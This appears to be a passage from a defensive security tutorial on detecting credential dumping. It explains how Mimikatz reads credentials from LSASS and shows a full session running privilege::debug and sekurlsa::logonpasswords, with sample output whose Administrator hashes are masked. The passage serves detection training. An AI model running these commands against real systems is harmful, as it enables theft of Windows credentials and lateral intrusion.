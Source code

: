 ## Detection Example 3: Detecting Credential Dumping

Another critical aspect of cybersecurity is detecting `credential dumping activities`. One widely used tool for credential dumping is [Mimikatz](https://github.com/gentilkiwi/mimikatz), offering **various methods for extracting Windows credentials**. One specific command, "`sekurlsa::logonpasswords`", **enables the dumping of password hashes or plaintext passwords by accessing the** `Local Security Authority Subsystem Service (LSASS)`. [LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) is responsible for **managing user credentials** and is a primary target for credential-dumping tools like Mimikatz.

The attack can be executed as follows.

```cmd
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :
```
